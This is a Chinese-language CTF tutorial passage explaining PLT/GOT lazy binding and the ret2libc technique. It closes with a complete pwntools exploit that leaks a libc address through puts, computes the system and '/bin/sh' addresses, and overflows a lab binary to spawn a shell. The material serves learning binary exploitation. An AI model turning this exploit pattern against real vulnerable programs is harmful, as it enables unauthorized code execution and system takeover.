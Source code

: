 上面分别有三个表项，分别是`common`（真实情况下不叫这个名字，而是最近的函数名）、`print`和`main`在`plt`表中的样子。

仍然看`print`表项，有三步：

第一步地址`80482e0`处是`jmp`到某个地址。这个其实就是`jmp`到`got`表中去查看`print`的真实地址了。

然而，此时`got`表中也没有存储`print`的真实地址，而是存储的`80482e6`。诶，这不是`print@plt`的第二步吗？怎么又返回到`plt`表中去了呢？

因为`plt`表中的第二步和第三步其实是“寻找`print`在`libc`中的地址，并将其写到`got`表中去”的意思。将真正的地址放到`got`表中后，以后若再次访问`print`函数的`got`表，就可以直接获得`print`函数的`libc`的地址了，这也就是延迟绑定机制。

总结一下，对于一个没有访问过的函数而言，查表流程是这样的：

`plt`->`got`->`plt`->`公共plt`->寻找在`libc`中的地址并存储到`got`表。

若该函数已经被访问过，则流程简单如下：

`call xxx@plt`->`plt`->`got`

## ret2libc流程

为什么要`ret2libc`？因为有的情况下，程序里面不会给我们提供一些显式的字符串，也没有可以利用的`gadgets`。但我们的程序需要使用库函数，是要连接`libc`库里面的，我们便可以利用`libc`库中的其他函数，只是需要知道函数在`libc`中的地址。虽然这个地址肯定是会变的，但是函数与函数间的相对地址不会变；或者说即使程序有ASLR保护，也只针对地址中间位进行随机，最低12位不会发生变化。因此我们只需要获得某一个函数在`libc`中的地址，就可以通过相对地址来获得其他的函数。

通过延迟访问机制后，我们即可明白：若直接访问一个没有访问过的函数的`got`表，是没有办法得到这个函数在`libc`中的真实地址的。因此，我们只能泄露一个已经访问的函数在`got`表中的地址。

这里写一个`wiki`里面的`exp`：

```python
from pwn import *
from LibcSearcher import LibcSearcher
sh = process('./ret2libc3')

ret2libc3 = ELF('./ret2libc3')

puts_plt = ret2libc3.plt['puts']
libc_start_main_got = ret2libc3.got['__libc_start_main']
main = ret2libc3.symbols['main']

print "leak libc_start_main_got addr and return to main again"
payload = flat(['A' * 112, puts_plt, main, libc_start_main_got])
sh.sendlineafter('Can you find it !?', payload)

print "get the related addr"
libc_start_main_addr = u32(sh.recv()[0:4])
libc = LibcSearcher('__libc_start_main', libc_start_main_addr)
libcbase = libc_start_main_addr - libc.dump('__libc_start_main')
system_addr = libcbase + libc.dump('system')
binsh_addr = libcbase + libc.dump('str_bin_sh')

print "get shell"
payload = flat(['A' * 104, system_addr, 0xdeadbeef, binsh_addr])
sh.sendline(payload)

sh.interactive()
```
